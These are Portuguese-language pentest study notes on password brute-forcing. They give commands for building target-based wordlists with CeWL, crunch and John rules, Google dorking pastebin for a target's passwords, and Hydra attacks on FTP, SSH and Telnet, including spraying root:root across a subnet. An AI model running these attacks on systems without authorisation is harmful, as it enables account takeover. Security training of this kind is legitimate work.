 ##   Brute Force: Ataques em senhas

**Ataques de Força Bruta**

- Se o sistema não te bloqueia depois de 3 tentativas erradas ele provavelmente permite ataque de força bruta
- Se ele te bloquei mais volta a te permitir tentativas depos de certo tempo tambem é possivel setar o time para o numero de tentativas.
- Podemos analisar tbm caracteristicas do alvo e montar um wordlist com base no alvo
- Podemos tentar senhas default
- Pode ser tambem utilizado wordlists populares.

## Wordlists

**Word Lists Kali**

- usr/share/wordlists
- usr/share/seclists

Comando utilizado para buscar um termo dentro de varias wordlists

`grep -r "termo_pesquisado" *`

Buscando padrões de senha atraves do Google

site:pastebin.com "alvo_pesquisado"

Wordlist Longato

https://github.com/ricardolongatto/loncrack/blob/master/wl.txt




## Gerando mutação em wordlist

- Primeiro crie um lista com possiveis senhas utilizadas pelo alvo
- Depois execute o comando abaixo para fazer a mudação usando o John
- `john --wordlist=wl.txt --rules --stdout > wl_mutacao.txt`

Caso queira acresentar algum tipo de modificação para insereir na mutação, você pode alterar algumas configurações no john

- Acesse: /etc/john/john.conf
- Localize: List Rules Wordlist




## Gerando wordlists personalizadas

**CEWL**

Gerando lista de palavras com base no site

`cewl www.site.com -m 7 -w palavras`

**CRUNCH**

- % Digitos
- ^ Caracteres Especiais
- @ Caracteres Minúsculos
- , Caracteres Maiúsculos

Gerando lista com um padrão especifico

`crunch 10 10 -t palavra^^%% -o wordlist `




## Key Space Brute Force

Exemplo 01

`crunch 4 4 0123456789 -o pin `

Exemplo 02

`crunch 4 4 -f charset.lst mixalpha -o pin `




## Brute force com Hydra

Exemplo

`hydra -v -L users.txt -P senhas.txt 192.168.0.1 ftp`




## Reverse Brute force

*Obs: Realiza o atque de força bruta no login e não na senha*

Exemplo

`hydra -v -L users.txt -p admin 192.168.0.1 ssh`




## Low Hanging Fruit

*Obs: Buscar os pontos mais fracos e fáceis (Ex: credenciais default)*

Exemplo

`hydra -v -l root -p root -M targets ssh`

Exemplo

`hydra -v -l root -p root -M 192.168.0.0/24 ssh`




## Dicas Extras

`man hydra`

Exemplo

`hydra -v -L users.txt -p senhas.txt 192.168.0.1 telnet -t 1 -W 5`




## Construindo sua própria ferramenta


